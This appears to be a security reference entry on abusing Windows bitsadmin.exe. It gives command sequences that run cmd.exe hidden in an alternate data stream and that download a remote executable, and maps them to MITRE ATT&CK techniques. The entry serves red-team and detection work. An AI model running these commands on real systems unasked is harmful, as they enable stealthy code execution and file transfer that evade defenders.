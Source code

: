 ## Bitsadmin.exe

* Functions: Execute, Download, Copy, Read ADS

```
bitsadmin /create 1   
bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe    
bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL    
bitsadmin /RESUME 1   
bitsadmin /complete 1

bitsadmin /create 1   
bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe   
bitsadmin /RESUME 1   
bitsadmin /complete 1   


bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /RESUME 1 & bitsadmin /Complete 1 & bitsadmin /reset    

bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\1.txt:cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset   
```

Acknowledgements:
* Rob Fuller - @mubix 
* Chris Gates - @carnal0wnage
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://www.slideshare.net/chrisgates/windows-attacks-at-is-the-new-black-26672679 - Slide 53
* https://www.youtube.com/watch?v=_8xJaaQlpBo
* https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

Full path:
```
c:\windows\system32\bitsadmin.exe
c:\windows\sysWOW64\bitsadmin.exe
```

Notes:
* Requires active user (doesn't work from a web shell)


Detection:

 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [BITS Jobs](https://attack.mitre.org/wiki/Technique/T1197)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
